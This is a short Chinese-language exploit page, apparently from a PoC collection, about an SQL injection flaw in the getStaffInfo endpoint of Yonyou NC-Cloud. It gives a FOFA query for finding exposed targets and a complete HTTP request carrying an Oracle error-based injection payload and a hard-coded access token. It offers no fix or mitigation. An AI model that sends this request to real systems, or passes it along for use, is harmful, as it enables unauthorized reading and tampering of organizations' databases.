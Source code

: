 # 用友NC-Cloud系统接口getStaffInfo存在SQL注入漏洞

用友NC-Cloud系统getStaffInfo接口存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa
```javascript
app="用友-NC-Cloud"
```

## poc
```javascript
GET /ncchr/attendstaff/getStaffInfo?id=1%27%29+AND+2787%3D%28SELECT+UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%28122%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%282787%3D2787%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%7C%7CCHR%2862%29%29%29+FROM+DUAL%29--+gPZR HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
accessTokenNcc: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiIxIn0.F5qVK-ZZEgu3WjlzIANk2JXwF49K5cBruYMnIOxItOQ
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20241219152316693](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191523762.png)

